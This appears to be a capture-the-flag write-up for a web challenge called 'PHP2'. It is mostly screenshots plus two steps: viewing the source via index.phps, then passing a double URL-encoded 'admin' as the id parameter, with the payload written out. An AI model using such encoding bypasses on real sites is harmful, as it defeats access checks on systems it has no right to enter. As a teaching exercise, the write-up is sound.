 # PHP2

![Screenshot from 2021-07-24 22-54-07](https://user-images.githubusercontent.com/87865134/126874011-7d9de08f-307f-433c-8945-4e032dbcdb33.png)

- Hint: phps
- Request file: `index.phps`

![Screenshot from 2021-07-24 22-55-37](https://user-images.githubusercontent.com/87865134/126874056-702a74ff-e596-4d4a-8e76-37f1a02eb796.png)

- Double URL-encode: `urlencode(urlencode('admin'))`
  - Payload: 
  ```
  ?id=%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
  ```

![Screenshot from 2021-07-24 22-57-56](https://user-images.githubusercontent.com/87865134/126874128-0a19d3b5-3664-481a-aab4-f92ea5a19669.png)
